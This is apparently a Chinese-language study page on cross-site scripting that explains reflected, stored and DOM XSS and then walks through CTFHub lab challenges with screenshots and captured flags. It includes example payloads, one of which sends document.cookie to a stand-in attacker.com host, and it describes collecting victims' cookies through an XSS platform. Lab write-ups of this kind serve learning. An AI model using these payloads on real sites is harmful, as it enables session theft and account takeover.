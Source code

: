 +++
title = "XSS"
icon = "article"
toc = true
+++
# XSS

## 漏洞原理

> Web 应用程序在处理用户输入时，没有对输入进行充分的过滤和转义，直接将用户输入的内容输出到页面中，攻击者就可以利用这个漏洞注入恶意脚本。

例如，一个留言板应用程序直接将用户输入的留言显示在页面上，如果攻击者输入一段 JavaScript 代码，当其他用户访问该留言板时，这段代码就会在他们的浏览器中执行。

## 漏洞类型
### 反射型 XSS
**特点**：攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后将恶意脚本反射回用户的浏览器并执行。这种攻击通常是一次性的，不会在服务器上存储恶意脚本。
**示例**：一个搜索页面，URL 参数直接显示在搜索结果页面上。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/search?keyword=<script>alert('XSS')</script>```。

### 存储型 XSS

**特点**：攻击者将恶意脚本提交到服务器并存储在数据库中，当其他用户访问包含该恶意脚本的页面时，脚本会在他们的浏览器中执行。这种攻击危害更大，因为它会影响多个用户。
**示例**：在一个论坛的留言功能中，攻击者在留言内容中注入恶意脚本，如```<script>document.location='http://attacker.com?cookie='+document.cookie</script>```。当其他用户查看该留言时，脚本会将他们的 Cookie 信息发送到攻击者的服务器。

### DOM 型 XSS
**特点**：基于 DOM（文档对象模型）的 XSS 攻击，不依赖服务器端处理，而是通过修改页面的 DOM 结构来注入恶意脚本。攻击者通过诱导用户访问包含恶意脚本的 URL，当页面加载时，脚本会在浏览器中执行。
**示例**：一个页面使用 JavaScript 动态更新内容，根据 URL 参数修改页面元素。攻击者构造一个包含恶意脚本的 URL，如```http://example.com/page.html?param=<script>alert('XSS')</script>```，当用户访问该 URL 时，脚本会在浏览器中执行。

# 题目

## 反射型

![image-20250411201914007.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a30ead989fa77045aca2dff052ba4e85bc?version=1.0&width=2046&height=1536)

![image-20250411201926443.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38714a419e39742099d717f732da8ac94?version=1.0&width=2046&height=1536)

在第一个输入框输入内容后，下面会显示。我看别人的wp中的js中写入alert语句都能被执行，我的直接冲定向了

![image-20250411202449543.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a377f4147f64bd4076bb6b525e9e015c1b?version=1.0&width=2046&height=1536)

![image-20250411202458622.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3d78919447ef3447d8128750b3c019913?version=1.0&width=2046&height=1536)

定义一个变量试一下

![image-20250411203941227.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38088676e8a734aafaa97a82f364c9af3?version=1.0&width=2046&height=1536)

被执行了

![image-20250411204009304.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a321c2604de6ff4006b5a00ce9b10d1f04?version=1.0&width=2046&height=1536)

接着找个XSS平台，将url填入

![image-20250411205731085.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3787872f7e3d14779953cd53bc30bcd8e?version=1.0&width=2046&height=1536)

不知道为啥，使用火狐是得不到cookie，最后用的Edge

![image-20250411205620592.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a340309c5761f14c2997521f259eb33cea?version=1.0&width=2046&height=1536)

**flag:ctfhub{8bc9faaca0589642c67759de}**

## 存储型

![image-20250411210859339.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a309e92fbed15f4539a4b609d0a0b0c5f7?version=1.0&width=2046&height=1536)

和上题类似，先测试一下

![image-20250411210930754.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3bcf513e073ea4d46abfdfc54450524b9?version=1.0&width=2046&height=1536)

![image-20250411210947151.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38e8cf1c056c040629f3c91566b4e33e9?version=1.0&width=2046&height=1536)

在第一个框中填入项目的地址

![image-20250411211238058.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3b552f89d022b47eab1e2aa949097260c?version=1.0&width=2046&height=1536)

第二个框填入当前页的url

![image-20250411211358963.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a323cfe41343d54965b4ade8a887086371?version=1.0&width=2046&height=1536)

看一下XSS平台的后台

![image-20250411211453422.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38bfca430f7f24ceab2095f9318d678a6?version=1.0&width=2046&height=1536)

**flag:ctfhub{3481284913c5d18b9fdcdb77}**

## DOM反射

![image-20250411211920380.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a34a2ab84d1fdb4e0088382ad8b3e07363?version=1.0&width=2046&height=1536)

题目说了是DOM反射，看源码

![image-20250411212021827.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3a2f14dfd8637474c86272a888990561e?version=1.0&width=2046&height=1536)

填入1试试

![image-20250411211942888.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3182338ad252f43e193e8c43c1c0749e4?version=1.0&width=2046&height=1536)

![image-20250411212233372.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a35329d0b993c347fab5dec9f2399e31ef?version=1.0&width=2046&height=1536)

中间加个**‘；**

![image-20250411212428413.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a384c4524f2bf34fd19c3e5e976362d259?version=1.0&width=2046&height=1536)

链接交上去

![image-20250411212450981.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3a0e5f01cb14f40d084126d5239f5fef6?version=1.0&width=2046&height=1536)

去看一下

![image-20250413181505021.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3dc1ed476de74427f83b59182e023a932?version=1.0&width=2046&height=1536)
